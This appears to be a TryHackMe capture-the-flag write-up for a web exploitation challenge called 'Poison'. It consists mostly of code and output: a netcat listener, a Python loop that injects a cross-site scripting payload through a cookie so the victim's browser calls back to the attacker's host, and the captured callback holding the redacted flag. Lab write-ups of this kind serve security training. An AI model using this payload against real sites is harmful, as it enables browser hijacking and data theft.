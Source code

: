 ```yaml
---
title: Poison
category: Web Exploitation
tags: 
draft: true
completedDuringEvent: true
submitted: true
points: 90
solves: -1
flag: THM{REDACTED}
---
```

> The CRM interface on the plant's internal network was supposed to help operators manage sensor maintenance and schedule firmware patches. Instead, someone turned it into a silent threat vector.
>
> A lab technician reported several inconsistencies. Data from the interface showed altered update statuses, injected redirects, and phantom users. Moments later, a batch of remote firmware triggers was misrouted… straight into the wrong PLCs.

---

```sh
nc -lnvp 1337
```

```py
import requests
import time

url = "http://10.10.67.238:8000/user.php"
cookie_value = "<script>setTimeout(() => fetch('http://10.17.37.98:1337/'), 2000)</script>"
cookies = {
    "loggedin": cookie_value
}

while True:
    try:
        response = requests.get(url, cookies=cookies)
        print(f"[+] Sent payload. Status: {response.status_code}")
        print(f"[+] Response body: {response.text}")
    except Exception as e:
        print(f"[-] Error: {e}")

    time.sleep(1)
```

```sh
$ $ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.17.37.98] from (UNKNOWN) [10.10.67.238] 48698
GET / HTTP/1.1
Host: 10.17.37.98:1337
Connection: keep-alive
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36 THM{REDACTED}
Accept: */*
Origin: http://10.10.67.238:8000
Referer: http://10.10.67.238:8000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

`User-Agent: ... Safari/537.36 THM{REDACTED}`

